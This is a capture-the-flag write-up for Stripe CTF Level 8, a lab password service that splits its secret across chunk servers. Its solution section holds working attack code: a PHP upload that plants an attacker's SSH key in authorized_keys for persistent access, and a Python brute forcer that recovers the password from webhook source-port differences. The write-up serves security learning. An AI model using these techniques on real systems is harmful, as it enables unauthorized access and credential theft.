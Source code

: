 ## Level 8

Welcome to the final level, Level 8.

HINT 1: No, really, we're not looking for a timing attack.

HINT 2: Running the server locally is probably a good place to start. Anything interesting in the output?

UPDATE: If you push the reset button, you will be bounced to a new `level08` machine. Note that this will change the value of your Flag. If you push reset on Level 2, you will similarly be bounced to a new Level 2 machine, but your Flag won't change.

Because password theft has become such a rampant problem, a security firm has decided to create PasswordDB, a new and secure way of storing and validating passwords. You've recently learned that the Flag itself is protected in a PasswordDB instance, accesible at https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/.

PasswordDB exposes a simple JSON API. You just POST a payload of the form `{"password": "password-to-check", "webhooks": ["mysite.com:3000", ...]}` to PasswordDB, which will respond with a `{"success": true}` or `{"success": false}` to you and your specified webhook endpoints.

(For example, try running `curl https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/ -d '{"password": "password-to-check", "webhooks": []}'`.)

In PasswordDB, the password is never stored in a single location or process, making it the bane of attackers' respective existences. Instead, the password is "chunked" across multiple processes, called "chunk servers". These may live on the same machine as the HTTP-accepting "primary server", or for added security may live on a different machine. PasswordDB comes with built-in security features such as timing attack prevention and protection against using unequitable amounts of CPU time (relative to other PasswordDB instances on the same machine).

As a secure cherry on top, the machine hosting the primary server has very locked down network access. It can only make outbound requests to other `stripe-ctf.com` servers. As you learned in Level 5, someone forgot to internally firewall off the high ports from the Level 2 server. (It's almost like someone on the inside is helping you — there's an [sshd](http://linux.about.com/od/commands/l/blcmdl8_sshd.htm) running on the Level 2 server as well.)

To maximize adoption, usability is also a goal of PasswordDB. Hence a launcher script, `password_db_launcher`, has been created for the express purpose of securing the Flag. It validates that your password looks like a valid Flag and automatically spins up 4 chunk servers and a primary server.

You can obtain the code for PasswordDB from `git clone https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/level08-code`.

### Running

- Run password_db_launcher. For example:

    `./password_db_launcher 123456789012 127.0.0.1:3000`

  will start a PasswordDB instance running on 127.0.0.1:3000 and with the Flag set to `123456789012`

- Make sure you're using Twisted 11.1.0
- Connect using curl:

    `curl 127.0.0.1:3000 -d '{"password": 123456789012, "webhooks": []}'`

### Solution

First, gain SSH access to a `*.stripe-ctf.com` machine by uploading the following PHP script to your `level02` endpoint:

```php
#!/usr/bin/env php
<?php
$dir = exec("pwd");
mkdir("$dir/../../.ssh");
$file = fopen("$dir/../../.ssh/authorized_keys", "w");
fputs($file, "ssh-dss <your-public-key>");
fclose($file);
```

After logging into your `level02` machine as `user-xxxxxxxxxx`, run the following Python script:

```python
#!/usr/bin/env python 
import socket
import urllib
import json
import sys

port = 12121

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('0.0.0.0', port))
sock.listen(5)

last_port = 0

def resolve_chunk(sock, port_offset, known = ""):
  candidates, last_port = range(0, 1000), 0
  while len(candidates) > 1:
    next_candidates = []
    for candidate in candidates:
      password = ("%s%03d" % (known, candidate)).ljust(12, "0");
      params = '{"password": "%s", "webhooks": ["level02-1.stripe-ctf.com:%d"]}' % (password, port)
      response = urllib.urlopen("https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/", params)
      result = json.loads(response.read())['success']
      if result:
        print password
        sys.exit()

      client, address = sock.accept()
      data = client.recv(1024)
      port_diff = address[1] - last_port
      if port_diff >= port_offset:
        next_candidates.append(candidate)
      last_port = address[1]
    candidates = next_candidates
  return str(candidates[0])

known = resolve_chunk(sock, 4)
known += resolve_chunk(sock, 5, known)
known += resolve_chunk(sock, 6, known)
known += resolve_chunk(sock, 7, known)
print known
```

Originally posted at [https://stripe-ctf.com/levels/8](https://stripe-ctf.com/levels/8).
